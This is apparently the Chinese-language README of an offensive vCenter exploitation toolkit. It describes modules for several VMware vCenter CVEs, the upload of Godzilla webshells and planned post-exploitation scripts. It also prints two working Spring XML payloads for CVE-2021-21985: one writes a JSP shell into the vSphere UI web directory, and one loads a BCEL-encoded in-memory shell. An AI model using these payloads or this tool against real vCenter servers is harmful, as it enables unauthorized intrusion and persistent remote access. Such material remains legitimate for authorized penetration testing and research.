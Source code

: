 ![VcenterKit](https://socialify.git.ci/W01fh4cker/VcenterKit/image?description=1&descriptionEditable=Vcenter%E7%BB%BC%E5%90%88%E6%B8%97%E9%80%8F%E5%88%A9%E7%94%A8%E5%B7%A5%E5%85%B7%E5%8C%85%20%7C%20Vcenter%20Comprehensive%20Penetration%20and%20Exploitation%20Toolkit&font=Rokkitt&forks=1&issues=1&language=1&logo=https%3A%2F%2Fs2.loli.net%2F2022%2F06%2F25%2FgUAh2V5CiD96y8G.jpg&owner=1&pattern=Circuit%20Board&pulls=1&stargazers=1)

# 1. 使用说明

## 1.1 安装与启动

推荐使用`Python3.9`，其余版本未测试。

```shell
pip install -r requirements.txt
python VcenterKit.py
```

## 1.2 信息收集模块

直接输入`url`即可进行信息搜集，如果存在本地文件读取的话，程序会自动读取数据库文件；有些网站是没有`sdk`接口的，也就无法通过这种方式来查询信息，后续会研究其他的方法：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824001431.png)

## 1.3 CVE-2021-21972模块

主要利用思维导图如下：

可以看到，并非所有情况下都能`100%`成功上传文件的，因此这里我把这些利用链（除了写`authorized_keys`）全部写在代码里面了，依次尝试。

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/9f185d40dfc9057818ed93226aeb279.png)

这里放上之前测试利用搭建的环境的截图：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/8bd245ffada0baa39a3059c73764bed.jpg)

上传哥斯拉马：

![11edd12a79387cb0d58d2a24b86ca10](https://github.com/W01fh4cker/VcenterKit/assets/101872898/3aac0b58-d2b7-49bd-a51e-5dc87e4f8845)


## 1.4 CVE-2021-21985模块

![image](https://github.com/W01fh4cker/VcenterKit/assets/101872898/e49cb0bb-0bbf-457b-b789-09ce3948a220)


需要注意的是，这里的`RMI`和`Command`只能二选一填写，目前`rmi`由于测试环境的问题，还没有进行测试，可能会有问题，但是`command`目前测试下来没什么问题，这里放上一张之前写的时候测试的截图：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/e39abf9b303b95372fa666e919cf705.png)

需要注意的是，当前版本（`v0.0.1`）的`shell`上传和内存马打入模块还没实现。但是核心思想就是替换`xml`：

>  以下参考：https://daidaitiehanhan.github.io/2022/04/18/vCenter2021几个漏洞及后渗透/#不出网利用

上传`shell`的`xml`：

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.io.PrintWriter">
        <constructor-arg>
            <value>/usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/41/0/h5ngc.war/resources/log2.jsp</value>
        </constructor-arg>
    </bean>
    <bean id="is" class="java.lang.String">
        <constructor-arg>
            <value><![CDATA[<% out.println("ok"); %> ]]></value>
        </constructor-arg>
        <property name="whatever" value="#{ pb.println(is).close()}"/>
    </bean>
</beans>
```

打内存马要用到的`xml`：

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="com.sun.org.apache.bcel.internal.util.ClassLoader">
    </bean>
        <bean id="is" class="java.lang.String">
        <constructor-arg>
            <value><![CDATA[$$BCEL$$...]]></value>
        </constructor-arg>
        <property name="whatever" value="#{ pb.loadClass(is).newInstance()}"/>
    </bean>
</beans>
```

等后面有时间了写上，当然，你可以来写，然后提`pr`，我看到会第一时间回复。

## 1.5 CVE-2021-22005模块

这里的`shell name`可写可不写，不写的话就是自动生成`6`位的名字。

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824003746.png)

测试截图：
![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824003704.png)

## 1.6 CVE-2022-22954（下个版本更新）

预览图如下：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824003914.png)

## 1.7 CVE-2022-22972（下个版本更新）

预览：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824004009.png)

## 1.8 后渗透利用模块（下个版本更新）

本来是想把这些脚本集成到工具里面的，但是转念一想，没必要，直接弄成点按钮生成脚本到本地这种形式就可以了，这样直接一个工具走天下。

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824004100.png)

## 1.9 渗透测试记事本

后面会放一些打vcenter的时候常用的命令、常看的文章上去

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824004255.png)

# 2. Q&A

## 2.1 代理问题？

因为`vcenter`大多数位于内网，因此都是`proxifer`挂代理打，也就不怎么需要程序本身加个代理功能，我也懒得写了。

## 2.2 长期维护吗？

长期维护！本工具会和未来出的一系列工具，例如后面会开始写的`ExchangeKit`一样，都是我长期维护的项目，和之前的`Serein`(https://github.com/W01fh4cker/Serein)不一样（那个时候代码水平不行，加上`tkinter`做图形化太难受了，就不想维护了）。

## 2.3 代码写的有逻辑问题/有bug/有新利用方式，如何沟通？

类似的问题，直接提交`issues`(https://github.com/W01fh4cker/VcenterKit/issues)，描述清楚相关环境，和具体细节，我看到之后会在当天内回复，一般20分钟内就会回复（因为我的电子邮件可以实时收到消息）。

如果有代码能力的话，欢迎提交`pull request`。

## 2.4 想参与进来，共同维护？

没问题，提交`pull request`，贡献代码。

## 2.5 和其他工具相比的优缺点？

`Akatsuki`师傅（https://github.com/Schira4396）写的`VcenterKiller`是我非常喜欢的一个利用工具，我的`VcenterKit`与其定位并不相同，我这个是用于本地挂代理测试内网或者外网的`vcenter`漏洞，并且由于方便而弄了个`pyqt5`做图形化，这直接导致打包后的`exe`体积非常非常大；而`VcenterKiller`则是用`go`语言写的一款小巧的利用工具，可以直接传至对方服务器运行，也可以本地运行，可以跨平台，非常的方便。

对于`CVE-2021-21972`这个漏洞而言，本工具可以自定义`shell`的名字，并且自动尝试数种利用链，用起来还是很舒服的，哈哈。

工具只是辅助，写工具的过程是了解漏洞的很好的方式，从中获得经验，足矣。

# 3. TODO

* [ ] 完成未完成的几个模块的功能编写
* [ ] 研究`CVE-2021-21985`的上传`shell`和打内存马的方式
* [ ] 你们提建议

# 4. 微信公众号：追梦信安

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824010900.png)
